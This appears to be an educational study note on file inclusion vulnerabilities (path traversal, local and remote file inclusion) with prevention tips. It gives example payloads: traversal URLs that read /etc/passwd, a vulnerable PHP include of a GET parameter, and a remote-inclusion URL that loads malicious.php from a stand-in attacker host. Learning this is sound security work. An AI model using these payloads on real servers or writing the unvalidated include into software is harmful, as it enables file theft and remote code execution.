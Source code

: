 # File Inclusion Vulnerabilities

1. What is File Inclusion?
File inclusion vulnerabilities occur when an application allows users to include files in a request. These can lead to Local File Inclusion (LFI) or Remote File Inclusion (RFI), depending on whether the included file is local or external. Attackers use these vulnerabilities to gain unauthorized access to files or execute malicious code.

2. Path Traversal
Path traversal (or directory traversal) enables attackers to access files outside the intended directory by manipulating the URL. For instance, by using sequences like ../.., they can move up directories and potentially access sensitive files, such as /etc/passwd in Unix systems.

Example:
```
http://webapp.thm/get.php?file=../../../../etc/passwd
```
3. Local File Inclusion (LFI)
LFI vulnerabilities let attackers load files from the web server itself. Developers often unintentionally introduce these when using functions like include() in PHP. If there is no validation, attackers can load sensitive files by injecting the file path directly into parameters.

- Example:
```
<?php include($_GET['lang']); ?>
```

An attacker could exploit this with:

```
http://webapp.thm/index.php?lang=../../../../etc/passwd
```

4. Remote File Inclusion (RFI)
RFI allows loading of files from external servers. If the application permits URLs in file includes, attackers can inject malicious scripts hosted on their own servers to execute on the target web server, potentially leading to Remote Code Execution (RCE).

Example:

```
http://webapp.thm/get.php?file=http://attacker.thm/malicious.php
```

5. Why File Inclusion Vulnerabilities Occur
These vulnerabilities often result from poor validation of user input in languages like PHP. If user inputs are not sanitized, attackers can manipulate parameters to load unintended files or execute commands.

6. Risks of File Inclusion

- Data Leakage: Access to configuration files, credentials, and sensitive data.
- RCE: Remote Code Execution if the application loads and runs malicious external files.
- System Access: Attackers can exploit LFI/RFI for further penetration into the system.

### Prevention Tips
To prevent file inclusion vulnerabilities:

- Keep software updated.
- Disable PHP error messages to avoid disclosing file paths.
- Use a Web Application Firewall (WAF) to block malicious requests.
- Disable risky PHP functions like allow_url_fopen and allow_url_include.
- Validate user input rigorously and avoid allowing users to define file paths directly.
- Implement whitelisting for files and directories that the application can access.











